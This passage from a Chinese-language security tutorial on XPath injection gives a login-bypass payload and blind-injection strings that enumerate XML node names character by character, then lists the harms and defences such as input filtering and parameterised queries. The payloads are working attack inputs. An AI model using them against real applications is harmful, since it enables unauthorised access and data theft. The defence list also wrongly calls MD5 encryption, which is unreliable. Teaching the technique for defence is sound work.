 攻击利用：
攻击者在 username 字段中输入： `' or 1=1 or ''='`
上面这个字符串会在逻辑上使查询一直返回 true 并将一直允许攻击者访问系统。
攻击者可以利用XPath在应用程序中动态地操作XML文档。攻击完成登录可以再通过XPath盲注技术获取最高权限帐号和其它重要文档信息。

## XPath盲注

如果要遍历出整个XML文档，一般步骤如下：

### 盲注根节点

利用`count(/*)`判断根下节点：

```
' or count(/*) =1 or '1' = '2
```

有返回结果证明存在一个根节点。
利用substring分割根节点的每个字符，猜解第一级节点：

```
' or substring(name(/*[position()=1]),1,1)='r' or '1'='2			# 猜根节点第一个字母是不是r
' or substring(name(/*[position()=1]),2,1)='o' or '1'='2			# 猜根节点第二个字母是不是o
```

此处如果错误将会看不到welcome

### 盲注子节点

判断root的下一级节点数：

```
' or count(/root/*) =1 or '1' = '2
```

有返回结果证明存在一个root的下一级节点。
猜解root的下一级节点：

```
' or substring(name(/root/*[position()=1]),1,1)='u' or '1'='2			# 猜子节点第一个字母是不是u
' or substring(name(/root/*[position()=1]),2,1)='s' or '1'='2			# 猜子节点第二个字母是不是s
```

重复上述步骤，直至猜解出所有节点，最后来猜解节点中的数据或属性值。

## Xpath注入攻击危害

- 在URL及表单中提交恶意XPath代码，可获取到权限限制数据的访问权，并可修改这些数据。
- 可通过此类漏洞查询获取到系统内部完整的XML文档内容。
- 逻辑以及认证被绕过，它不像数据库那样有各种权限，xml没有各种权限的概念,正因为没有权限概念，因此利用xpath构造查询的时候整个数据库都会被用户读取。

## Xpath注入攻击防御

- 数据提交到服务器上端，在服务端正式处理这批数据之前，对提交数据的合法性进行验证。
- 检查提交的数据是否包含特殊字符，对特殊字符进行编码转换或替换、删除敏感字符或字符串。
- 对于系统出现的错误信息，以IE错误编码信息替换，屏蔽系统本身的出错信息。
- 参数化XPath查询，将需要构建的XPath查询表达式，以变量的形式表示，变量不是可以执行的脚本。
- 通过MD5、SSL等加密算法，对于数据敏感信息和在数据传输过程中加密，即使某些非法用户通过非法手法获取数据包，看到的也是加密后的信息。 总结下就是：限制提交非法字符，对输入内容严格检查过滤，参数化XPath查询的变量。
